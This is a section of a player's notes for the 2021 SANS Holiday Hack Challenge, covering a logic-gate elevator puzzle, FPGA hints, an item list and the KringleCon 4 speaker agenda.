[Go back](#Hints)

**Overview**
Requested by Grody Goiterson, found in FrostFest - Frost Tower Lobby
<br>
Task Elevator quest
Description 

```
The elevator is offline, you need to configure the panel and arrange the circuit components so all output ports have power
```




**Resources**
* Logic Gates and Circuits: https://logic.ly/lessons/

**Solution**

You can use the resource link to see what effect each component has. The final solution looks like:  



**Hints given**

* **FPGA Talk:** Prof. Qwerty Petabyte is giving [a lesson] about Field Programmable Gate Arrays (FPGAs).
* **FPGA for Fun:** There are [FPGA enthusiast](https://www.fpga4fun.com/MusicBox.html) sites.

[Go back](#Hints)


# Items

[Go back](#Document-structure)

* WiFi Dongle **A USB WiFi dongle**

Can be found in The North Pole - Orientation  
Can be used to solve [Objective 3](obj/Objective03.md) **Thaw Frost Tower's Entrance** *requested by Grimy McTrolkins, found in The North Pole - The North Pole*


* FPGA **Field-Programmable Gate Array**

Can be found in FrostFest - Frost Tower Rooftop
Can be used to unlock the last location at FrostFest


[Go back](#Hints)

# Talks

[Go back](#Document-structure)

Hint: You can have a look at the agenda [following this link](https://downloads.holidayhackchallenge.com/2021/KringleCon4_SpeakerAgenda.pdf). Sadly it it does contain clickable links.

**Speaker Agenda**

|                |**Ed Skoudis**<br>SANS Holiday Hack Challenge: Welcome & Orientation<br>*Track 1*                        |
|----------------|-------------------------------|
|**Andy Smith**<br>Automate Security Response by Creating Your Own “Naughty Lists”<br>*Track 2*|**Tom Liston**<br>RFC-3514 Compliant Pentesting: Being Good While You’re Being Bad<br>*Track 2*|      
|**Prof. Qwerty Petabyte**<br>[FPGA Design for Embedded Systems](https://www.youtube.com/watch?v=GFdG1PJ4QjA)<br>*Track 3*|**Nancy Gariché**<br>Disclosing Security Vulnerabilities to Open-Source Projects... Like a Boss<br>*Track 3*|     
|**Jay Beale**<br>Kubernetes Attack Demo: Hacking a Cheating Casino<br>*Track 4*|**Xena Olsen**<br>The Abominable Snowman’s Threat Hunting Adeventure<br>*Track 4*| 
|**Sean Atkinson + Chris Elgee**<br>A CISO’s Best Friend: The Pentester!!?!<br>*Track 5*|**Chris Davis**<br>[Demonstrating Active Directory Penetration Testing](https://www.youtube.com/watch?v=iMh8FTzepU4)<br>*Track 5*|
|**Mary Ellen Kennel**<br>How to Build a Free Malware Lab and Start Analyzing Samples in Under an Hour<br>*Track 6*|**Clay Moody**<br>[Using Open-Source Tools to Track Elves](https://www.youtube.com/watch?v=tAot_mcBT9c)<br>*Track 6*|
|**Kevin Tyers**<br>HIDden Ducky, Deconstructed Payload<br>*Track 7*|**Google**<br>Eliminating XSS in Angular Applications<br>*Track 7*|

[Go back](#Document-structure)
